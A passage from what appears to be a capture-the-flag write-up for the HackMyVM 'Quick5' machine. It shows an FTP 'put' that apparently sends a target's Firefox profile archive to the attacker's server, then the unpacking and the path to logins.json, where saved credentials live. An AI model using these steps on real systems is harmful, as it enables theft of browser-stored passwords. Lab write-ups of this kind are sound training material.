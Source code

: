 ```bash
debug           less            ntrans          reset           unset
delete          lpage           open            restart         usage
dir             lpwd            page            rhelp           user
disconnect      ls              passive         rmdir           verbose
edit            macdef          pdir            rstatus         xferbuf
epsv            mdelete         pls             runique         ?
epsv4           mdir            pmlsd           send
put firefox.tar.gz
exit

```
After closing the connection with the FTP server we should check on our machine if the file have been received.

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick5]
└─$ ll
total 38240
-rw-r--r-- 1 emvee emvee 39157491 Feb 20 16:09 firefox.tar.gz
```
We did receive the file, now we should extract the file and change the working directory to the location where we have the file `logins.json` .

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick5]
└─$ tar -xzf firefox.tar.gz

┌──(emvee㉿kali)-[~/Documents/HMV/Quick5]
└─$ ls -la                    
total 38252
drwxr-xr-x  3 emvee emvee     4096 Feb 20 16:12 .
drwxr-xr-x 25 emvee emvee     4096 Feb 19 22:33 ..
drwxr-xr-x  4 emvee emvee     4096 Feb 20 13:26 firefox
-rw-r--r--  1 emvee emvee 39157491 Feb 20 16:09 firefox.tar.gz

┌──(emvee㉿kali)-[~/Documents/HMV/Quick5]
└─$ cd firefox  

┌──(emvee㉿kali)-[~/Documents/HMV/Quick5/firefox]
└─$ ls -la
total 16
drwxr-xr-x 4 emvee emvee 4096 Feb 20 13:26 .
drwxr-xr-x 3 emvee emvee 4096 Feb 20 16:12 ..
drwxr-xr-x 4 emvee emvee 4096 Feb 20 13:26 3779
drwxr-xr-x 4 emvee emvee 4096 Feb 20 13:26 common
lrwxrwxrwx 1 emvee emvee    4 Feb 20 13:26 current -> 3779

┌──(emvee㉿kali)-[~/Documents/HMV/Quick5/firefox]
└─$ cd common    

┌──(emvee㉿kali)-[~/…/HMV/Quick5/firefox/common]
└─$ ls -la
total 16
drwxr-xr-x 4 emvee emvee 4096 Feb 20 13:26 .
drwxr-xr-x 4 emvee emvee 4096 Feb 20 13:26 ..
drwxr-xr-x 7 emvee emvee 4096 Feb 20 13:26 .cache
drwx------ 4 emvee emvee 4096 Feb 20 13:26 .mozilla

┌──(emvee㉿kali)-[~/…/HMV/Quick5/firefox/common]
└─$ cd .mozilla/firefox/ii990jpt.default 

┌──(emvee㉿kali)-[~/…/common/.mozilla/firefox/ii990jpt.default]
└─$ ll    
total 12252
```